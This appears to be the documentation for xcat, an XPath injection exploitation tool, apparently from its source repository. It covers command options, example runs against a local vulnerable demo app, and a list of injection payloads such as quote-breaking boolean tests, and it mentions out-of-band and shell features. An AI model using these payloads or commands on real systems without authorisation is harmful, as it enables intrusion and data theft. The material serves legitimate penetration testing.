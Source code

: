 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

For example, to attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

xcat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then xcat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

xcat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection xcat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run

This is the core function of xcat. It will retrieve the whole document that is being queried with the
vulnerable xpath expression.

```shell
$ xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer
<root first="1" second="2" third="">
	<!--My lovely library-->
	<books>
		<book>
			<title>
				Rogue Lawyer
			</title>
			<author>
				John Grisham
			</author>
...
```

# shell

This is one of the most powerful features of xcat. 
Please see [the dedicated `shell` documentation here](shell.md)


# injections

This command prints out all the injections xcat currently can use, along with the sample expressions 
xcat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
Name: integer
 Example: /lib/book[id=?]
 Tests:
   ? and 1=1 = passes
   ? and 1=2 = fails
Name: string - single quote
 Example: /lib/book[name='?']
 Tests:
   ?' and '1'='1 = passes
   ?' and '1'='2 = fails
Name: string - double quote
 Example: /lib/book[name="?"]
 Tests:
   ?" and "1"="1 = passes
   ?" and "1"="2 = fails
Name: attribute name - prefix
 Example: /lib/book[?=value]
 Tests:
   1=1 and ? = passes
   1=2 and ? = fails
Name: attribute name - postfix
 Example: /lib/book[?=value]
 Tests:
   ? and not 1=2 and ? = passes
   ? and 1=2 and ? = fails
Name: element name - prefix
 Example: /lib/something?/
 Tests:
   .[true()]/? = passes
   .[false()]/? = fails
Name: element name - postfix
 Example: /lib/?something
 Tests:
   ?[true()] = passes
   ?[false()] = fails
Name: function call - last string parameter - single quote
 Example: /lib/something[function(?)]
 Tests:
   ?') and true() and string('1'='1 = passes
   ?') and false() and string('1'='1 = fails
Name: function call - last string parameter - double quote
 Example: /lib/something[function(?)]
 Tests:
   ?") and true() and string("1"="1 = passes
   ?") and false() and string("1"="1 = fails
Name: other elements - last string parameter - double quote
 Example: /lib/something[function(?) and false()] | //*[?]
 Tests:
   ?") and false()] | //*[true() and string("1"="1 = passes
   ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
